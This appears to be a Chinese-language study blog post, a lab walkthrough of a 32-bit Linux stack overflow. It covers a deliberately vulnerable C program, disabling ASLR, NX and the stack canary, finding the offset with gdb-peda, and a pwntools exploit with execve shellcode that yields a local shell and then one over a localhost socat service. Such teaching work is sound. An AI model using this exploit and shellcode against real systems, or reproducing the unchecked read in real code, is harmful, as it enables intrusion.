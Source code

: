 ```yaml
---
title: Linux下简单的栈溢出
date: 2018-03-17 19:06:41
tags: PWN
---
```




# 0x00前言

------

看蒸米师傅的一步一步学ROP做的笔记

<!--more-->

# 0x01 程序代码

------

​    

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
char buf[128];
read(STDIN_FILENO, buf, 256);
}

int main(int argc, char** argv) {
vulnerable_function();
write(STDOUT_FILENO, "Hello, World\n", 13);
}
```

编译：

```
gcc -fno-stack-protector -z execstack -o level1 level1.c
```

这里有四个模式选择：
​    

```
gcc -fno-stack-protector//禁用堆栈保护
gcc -fstack-protector  //启用堆栈保护，针对有字符串数组的函数
gcc -fstack-protector-all  //启用堆栈保护，针对所有函数
gcc -fstack-protector-strong  //更强版本
```

关闭DEP

```
-z execstack 
```

关闭系统的ASLR保护：

```
sudo -s 
echo 0 > /proc/sys/kernel/randomize_va_space
exit
```

此处值为0时表示关闭，1为开启，2为增强

```
/proc/sys/kernel/randomize_va_space
```

首先我们确定溢出点的位置：

这里使用的是gdb的peda插件：

{%asset_img 0.png%}

然后继续调试程序，输入这些字符串：
​    

```
Stopped reason: SIGSEGV
0x41416d41 in ?? ()
```

那么我们得到出错的地址为0x41416d41,然后我们算一下此处地址的偏移：

```
gdb-peda$ pattern offset 0x41416d41
1094806849 found at offset: 140
```

那么计算出距离ret的返回值为140个字节，那么我们只需要构造‘A’*140+ret字符串即可，就可以实现让程序执行ret处的代码

但是这里还有个问题，引用的蒸米师傅的原话：

> 对初学者来说这个shellcode地址的位置其实是一个坑。因为正常的思维是使用gdb调试目标程序，然后查看内存来确定shellcode的位置。但当你真的执行exp的时候你会发现shellcode压根就不在这个地址上！这是为什么呢？原因是gdb的调试环境会影响buf在内存中的位置，虽然我们关闭了ASLR，但这只能保证buf的地址在gdb的调试环境中不变，但当我们直接执行./level1的时候，buf的位置会固定在别的地址上。

那么解决办法是开启core dump这个功能

```
ulimit -c unlimited
sudo sh -c 'echo "/home/mask/core.%t" > /proc/sys/kernel/core_pattern'
```

然后执行这个程序：

```
mask@mask-virtual-machine:~/mzheng$ ./level1
ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
段错误 (核心已转储)
```

gdb打开core文件：

```
gdb level1 ~/core.1510581838 
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from level1...(no debugging symbols found)...done.
[New LWP 26955]
Core was generated by `./level1'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x41414141 in ?? ()
gdb-peda$ 
```

因为溢出点偏移为140个字节，再加上4个字节的ret地址，那么就可以算出buffer地址为$esp-144，通过gdb的命令 “x/10s $esp-144”，那么buf地址为0xbfffeff0

# 0x02 EXP编写

------

然后开始编写exp，使用的是业界良心的pwntools工具：

```
#!/usr/bin/env python
from pwn import *

p = process('./level1') 
ret = 0xbfffeff0

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

# p32(ret) == struct.pack("<I",ret) 
#对ret进行编码，将地址转换成内存中的二进制存储形式
payload = shellcode + 'A' * (140 - len(shellcode)) + p32(ret)

p.send(payload) #发送payload

p.interactive()  #开启交互shell
```

那么执行exp：

```
mask@mask-virtual-machine:~/mzheng$ vim exp1.py 
mask@mask-virtual-machine:~/mzheng$ python exp1.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './level1': pid 27266
[*] Switching to interactive mode
$ id
uid=1000(mask) gid=1000(mask) groups=1000(mask),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ whoami
mask
$  
```

接下来使用socat这个工具模仿一下远程溢出：

```
socat TCP4-LISTEN:10001,fork EXEC:./level1
```

随后这个程序的IO就被重定向到10001这个端口上了，并且可以使用 nc 127.0.0.1 10001来访问我们的目标程序服务了。





```
mask@mask-virtual-machine:~/mzheng$ nc 127.0.0.1 10001
ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

exp脚本只要把

```
p = process('./level1')换成p = remote('127.0.0.1',23333)
```

ret的地址还会发生改变。解决方法还是采用生成core dump的方案，然后用gdb调试core文件获取返回地址。然后我们就可以使用exp进行远程溢出

```
mask@mask-virtual-machine:~/mzheng$ vim exp1.py 
mask@mask-virtual-machine:~/mzheng$ python exp1.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ id
uid=1000(mask) gid=1000(mask) groups=1000(mask),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ whoami
mask
$ 
```

# 0x03 知识点整理

------

## 保护机制

```
mask@mask-virtual-machine:~/mzheng$ gdb ./level1
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./level1...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY: disabled
FORTIFY   : disabled
NX: disabled
PIE   : disabled
RELRO : Partial
gdb-peda$ 
```

